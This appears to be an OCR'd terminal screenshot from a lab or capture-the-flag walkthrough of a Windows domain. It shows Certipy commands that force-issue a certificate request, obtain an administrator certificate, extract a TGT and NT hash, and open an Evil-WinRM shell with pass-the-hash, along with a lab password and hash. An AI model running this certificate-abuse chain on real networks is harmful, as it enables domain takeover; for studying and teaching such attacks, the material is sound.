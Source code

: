[!] DNS resolution failed: The DNS query name does not exist: MENTALITY.THL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 6
[-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
Would you like to save the private key? (y/N): N
[-] Failed to request certificate
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad ca -ca 'mentality-WIN-9FQTT7GPAVK-CA' -issue-request 5 -username svcapp1@mentality.thl -password 'Patito12345'

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: MENTALITY.THL.
[!] Use -debug to print a stacktrace
[*] Successfully issued certificate request ID 5
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ certipy-ad req -ca 'mentality-WIN-9FQTT7GPAVK-CA' -u 'svcapp1@mentality.thl' -p 'Patito12345' -target  'WIN-9FQTT7GPAVK.mentality.thl' -ns 192.168.56.107  -retrieve '5'

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Retrieving certificate with ID 5
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@mentality.thl'
[*] Certificate has no object SID
[*] Loaded private key from '5.key'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$  certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.107
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@mentality.thl'
[*] Using principal: 'administrator@mentality.thl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@mentality.thl': aad3b435b51404eeaad3b435b51404ee:058a4c99bab8b3d04a6bd959f95ce2b2
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/mentality]
└─$ evil-winrm -i 192.168.56.107 -u administrator -H 058a4c99bab8b3d04a6bd959f95ce2b2
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        